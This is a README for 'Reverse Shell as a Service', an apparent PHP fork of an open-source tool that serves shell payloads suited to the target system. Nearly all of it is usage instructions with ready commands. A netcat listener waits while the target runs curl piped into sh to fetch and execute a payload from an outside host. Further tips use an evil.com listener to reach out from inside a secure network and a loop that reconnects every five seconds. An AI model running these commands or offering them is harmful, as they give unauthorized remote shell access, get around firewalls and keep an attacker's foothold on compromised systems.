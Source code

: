 # Reverse Shell as a Service

> https://r.0x7359.com

Easy to remember reverse shell that should work on most Unix-like systems.

Detects available software on the target and runs an appropriate payload.

This is a fork from [lukechilds' version](https://github.com/lukechilds/reverse-shell), which was made in NodeJS.

I made this in PHP and added more payloads. I'll probably add more functions in the future.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://r.0x7359.com/yourip:port into sh.

```shell
curl https://r.0x7359.com/192.168.0.69:1337 | sh &
```

Go back to your machine, you should now have a shell prompt.

## Demo

![rev](https://user-images.githubusercontent.com/3837916/128927456-74880809-6d84-4455-aec8-16733f90c202.gif)


## Tips

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://r.0x7359.com/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with:

```shell
curl https://r.0x7359.com/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect at each 5 seconds by wrapping it in a while loop with a sleep. This may not work well with the python payload.

```shell
while true; do curl https://r.0x7359.com/yourip:1337 | sh; sleep 5; done
```
